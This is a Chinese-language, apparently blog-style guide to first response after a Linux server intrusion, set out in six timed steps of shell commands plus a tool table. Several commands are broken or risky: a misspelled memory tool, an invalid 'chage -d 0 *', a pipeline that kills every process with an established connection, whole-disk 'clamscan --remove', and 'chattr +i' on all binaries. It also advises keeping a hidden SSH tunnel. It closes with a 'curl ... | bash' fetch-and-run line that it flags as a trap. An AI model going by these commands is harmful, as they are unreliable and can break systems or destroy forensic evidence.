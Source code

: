 
---

🔥 **Linux系统被入侵后的黄金30分钟：6步绝地反杀 | 生死时速版** 
 
💀 _"黑客在我的服务器里蹦迪？先切断电源还是拔出网线？不，这才是正确解法！"_  

---

### **⚠️ 行动原则**  
1. **首要任务**：阻止攻击扩散，而非立刻反击  
2. **绝对禁忌**：不要关机/重启（会丢失内存证据）  
3. **记录所有操作**：打开终端立即执行 `script /var/log/incident_response.log`  

--- 

#### **第1步：切断连接（0-3分钟）**  
```bash  
# 暴力断网法（物理隔离首选）  
sudo ifconfig eth0 down                    # 关闭网卡  
# 或优雅封锁  
sudo iptables -A INPUT -j DROP             # 屏蔽所有入站  
sudo iptables -A OUTPUT -j DROP            # 禁止外连（阻隔C2通信）  
```  
**关键操作**：  
- 拔掉网线 > 防火墙规则 > 关闭SSHD服务（优先级排序）  
- **存活技巧**：本地保留一个未公开的SSH隧道用于应急  

---

#### **第2步：冻结现场（3-8分钟）**  
**🛡️ 保存系统瞬时状态**：  
```bash  
# 内存取证工具（需提前安装）  
sudo apt install volatility3 -y  
sudo liime-acquire -d /mnt/usb/            # 导出内存镜像到U盘  

# 快速进程快照  
ps auxef > /mnt/usb/process_snapshot.txt  
netstat -tulnp > /mnt/usb/network_conn.txt  
```  
**必存证据清单**：  
```
├── /var/log/*                         # 完整日志  
├── ~/.bash_history                    # 用户操作记录  
├── /proc/$PID/exe → /mnt/usb/         # 恶意进程二进制  
└── crontab -l                         # 定时任务备份  
```  

--- 

#### **第3步：关门打狗（8-15分钟）**  
**🕵️ 锁定攻击入口**：  
1. **查异常账户**：  
   ```bash  
   grep ':0' /etc/passwd                  # 检测伪装root用户  
   awk -F: '($3 == 0) {print}' /etc/passwd  
   ```  

2. **杀恶意进程**：  
   ```bash  
   # 找出反弹Shell进程  
   netstat -antp | grep ESTABLISHED | awk '{print $7}' | cut -d/ -f1 | xargs kill -9  
   ```  

3. **封后门文件**：  
   ```bash  
   find / -name "*.sh" -mtime -1          # 查找24小时内新建的脚本  
   find / -perm -4000 -ls                 # 扫描异常SUID文件  
   ```  

---

#### **第4步：清理战场（15-22分钟）**   
1. **拆除定时炸弹**：  
   ```bash  
   # 检查所有用户的cron  
   cat /etc/cron* /var/spool/cron/crontabs/*  
   # 删除可疑任务  
   crontab -e -u {用户名}  
   ```  

2. **粉碎SSH后门**：  
   ```bash  
   # 检查authorized_keys  
   cat ~/.ssh/authorized_keys  
   # 检查ssh_config注入  
   grep -r "ProxyCommand" /etc/ssh/*  
   ```  

3. **根除启动项**：  
   ```bash  
   systemctl list-unit-files | grep enabled  
   ls -al /etc/rc.local /etc/init.d/  
   ```  

---

#### **第5步：系统消毒（22-28分钟）**  
```bash  
# 使用专业工具（需提前部署）  
sudo rkhunter --check --sk               # 扫描Rootkit  
sudo clamscan -r --remove /              # 全盘查杀病毒（慢但彻底）  

# 快刀方案  
sudo chattr +i /bin/* /sbin/* /usr/bin/* # 锁定关键目录不可修改  
```  
**针对性策略**：  
- **挖矿病毒**：`pkill -f xmrig` + 清理`/tmp/`和`/dev/shm`  
- **勒索软件**：立即断开所有存储设备  

---

#### **第6步：重塑防线（28-30分钟）**  
1. **密码大重置**：  
   ```bash  
   # 强制所有用户改密码  
   chage -d 0 *                              
   # 生成高强度SSH密钥  
   ssh-keygen -t ed25519 -a 100  
   ```  

2. **构建监控哨兵**：  
   ```bash  
   # 实时文件监控  
   sudo apt install auditd  
   sudo auditctl -w /etc/passwd -p war -k passwd_changes  
   # 网络流量警报  
   sudo tcpdump -i eth0 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420' -nn -l  
   ```  

---

### **🔰 事后应急工具箱**  
| **分类**       | **推荐工具**                   | **作用**                         |  
|----------------|------------------------------|----------------------------------|  
| **内存取证**   | `LiME` `Volatility3`         | 提取进程/网络连接内存镜像          |  
| **日志分析**   | `LNX-Basic` `Logwatch`       | 快速定位异常登录/操作              |  
| **文件恢复**   | `testdisk` `extundelete`     | 抢救被删除的恶意文件               |  
| **网络复盘**   | `tcpdump` `Wireshark`        | 分析攻击流量特征                   |  

---

### **💥 血的教训：千万不能做的事**  
1. **别**直接修复漏洞（会惊动攻击者）  
2. **别**用被控服务器的命令做检查（可能被篡改）  
3. **别**立即打补丁（先留证据再修复）  

---

**🔥 终极秘籍**  
将这份指南打印并贴在服务器机房，或者保存为 `/root/.emergency_plan`，关键时刻执行：  
```bash  
curl -s https://example.com/emergency.sh | bash  
# （不！千万别这么干！这是个陷阱示例！）  
```